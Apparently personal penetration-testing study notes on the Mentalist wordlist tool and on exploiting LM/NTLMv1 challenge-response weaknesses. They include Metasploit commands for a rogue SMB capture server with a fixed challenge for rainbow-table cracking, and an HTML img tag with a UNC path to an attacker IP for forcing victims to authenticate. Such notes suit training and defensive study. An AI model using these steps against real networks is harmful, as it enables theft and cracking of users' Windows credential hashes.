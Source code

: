 
#### Mentalist
https://github.com/sc0tfree/mentalist
https://github.com/sc0tfree/mentalist/wiki

> its GUI 
can generate rules files that can be used with hashcat and john

## Exploitation

### Windows Authentication Weaknesses
**LM/NTLMv1**

	challenge/response protocol
	Type1 (negotiation), Type 2 (challenge) and Type 3 (Authentication)
1. The client sends a request For authentication
2. Server sends an 8-byte challenge (random value)
3. Client encrypts the challenge using the password hash and send it back as response

The generated hash (16-bytes long) is padded with 5 null bytes making it a 21 bytes string
The 21 bytes string is split in 3 blocks, 7bytes long each + 1 parity byte. The responde will be then 24 bytes long.
* In the attack scenario we impersonate the server, and then the challenge is chosen by us.
moreover: http://davenport.sourceforge.net/ntlm.html#theType3Message

- Weaknesses:
	No diffusion, meaning that each part of DES output is not linked to the previous one. This allow attacks on the three blocks individually. DES is an old algorithm with intrinsic weaknesses. The third DES key block is much weaker than the others, since it has 5 null bytes For padding.

- How exploit this weaknesses?
	Our goal is to capture the client responde (step 3 of the protocol)

- There is 2 methods:
	Force the client (target) to start a connection to us (fake server)
	Use MITM techniques in order to sniff the client response

```
	metasploit
	use auxiliary/server/capture/smb
	set challenge = 1122334455667788
	set johnpwfile = hashpwd //tell metasploit to save the hashes to a file and formatted to work with john.
	run
```

> Since we control the challenge (that acts as a salt in the hash), we can use rainbow tables.
There is tables built For the 8 byte server challenge (1122334455667788)

- Force the client to start a connection
	the easiest way is through SMB authentication
	we can embed a UNC path (Universal Naming Convention) (\\SERVER_IP\\SHARE) into an email message or a web page.

HTML tag:
```
	<img src="\\192.168.102.147\ADMIN$">
```
